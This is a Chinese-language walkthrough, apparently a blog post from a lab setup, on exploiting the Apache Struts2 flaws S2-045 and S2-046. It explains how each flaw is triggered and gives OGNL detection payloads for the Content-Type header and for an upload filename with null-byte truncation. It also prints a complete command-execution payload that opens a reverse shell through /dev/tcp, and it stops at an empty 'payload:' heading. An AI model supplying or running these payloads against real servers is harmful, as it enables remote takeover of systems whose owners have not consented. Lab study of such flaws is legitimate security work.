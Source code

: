 <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/fa2ae10dd56502e75bad76a892adaec5.jpeg"/><br/> 成功

#### S2-045

利用Struts2的上传功能代码里的非正常处理函数代码，没有正确的去处理访问客户输入的错误内容。导致黑客可以通过输入那里发送恶意的POST数据包，利用这个漏洞在windows 2003 2008 2012服务器跟Linux centos系统服务器上执行系统权限命令<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d22647d254944e0f2217d58ca508429e.jpeg"/>

##### 检测

```
%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',1+2+3+4)}.multipart/form-data

```

抓POST包修改Content-Type的值为上面代码<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/dfa39f3b1ad1f4275375c407cbee5de5.jpeg"/><br/> 1+2+3+4=10，非常合理

##### 命令执行

反弹shell:

```
%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}b

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/3929e958e6169e03fb650f1e042d668a.jpeg"/><br/> 反弹成功

#### S2-046

S2-046和S2-045的爆发点是一样的，只是输入点有些不同，利用方式上不一样<br/> 他有触发的条件，依次为：<br/> 1.上传文件的大小（由Content-Length头指定）大于Struts2默认允许的最大大小（2M）<br/> 2.header中的Content-Disposition中包含空字节<br/> 3.文件名内容构造恶意的OGNL内容<br/> 4.输入点在文件上传的filename值位置，并需要使用\x00截断

##### 检测

```
"%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',666666)}\x00b"

```

更改filename为上述代码，在hex里找到b之前一个符号，使用00截断，我们add了一个x-test=666666，若返回包里有则漏洞存在<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/8d77e2db73a911bc70b8cacb37327729.jpeg"/>

##### 命令执行

payload：
